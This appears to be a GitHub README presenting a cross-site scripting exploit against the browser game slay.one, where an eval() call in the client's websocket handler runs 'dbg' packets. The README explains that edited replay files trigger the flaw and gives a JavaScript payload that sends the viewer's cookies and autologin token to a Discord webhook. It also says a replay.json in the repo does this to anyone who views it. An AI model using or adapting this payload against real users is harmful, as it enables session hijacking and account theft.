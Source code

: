 # dbg-expliot

### Introduction 
Slay.one is a top down pixel shooter on the web. Howeever, like many web apppilcations it can be vulerible to cross-site sripting attacks.

### PoC 
Within the slay.one client-bundle.js, the section of code that handles websocket messages from the server there is a few lines of code that put the user in jepordy. 

```javascript
else if ("dbg" === arr[0]) // dbg packet send from the server 
    try {
        eval(msg.substring(4)) // eval() can be used to execute code 
    } catch (e) {}
```

This can be explioted with slay.one's replay feature where users can download replays of thier games. However, replay's can be editted to execute malicous code on the brower.

As a proof of concept the replay.json file in the repo if viewed on slay.one will steal your cookies and send it to a discord webhook 

```json
dbg$fetch('https://discord.com/api/webhooks/{webhookID}/{webhookToken}{
    method: 
        'POST',headers: {'Content-Type': 'application/json'},
    body: JSON.stringify({content: 'Stolen Cookies: ' 
    + document.cookie + 'Login' + localStorage.autologin})
});
```

